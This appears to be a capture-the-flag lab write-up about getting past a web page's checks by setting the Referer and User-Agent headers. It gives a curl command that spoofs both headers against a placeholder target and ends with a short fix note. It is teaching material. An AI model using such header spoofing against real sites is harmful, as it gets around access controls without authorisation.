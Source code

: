 # Modifying headers

## Exploit
Among the quite frankly stupid comments on the `${URL}/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c` page, we can see a comment telling us to come from `https://www.nsa.gov/` and another telling us to ues the browser `ft_bornToSec`, let's do that using curl
```shell
$  curl -H 'Referer: https://www.nsa.gov/' \
        -H 'User-Agent: ft_bornToSec' \
        '${URL}/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' | grep flag
```

## Fix
I guess the point here is to show us that HTTPS header can be easily modified? Don't rely on them to hide data.
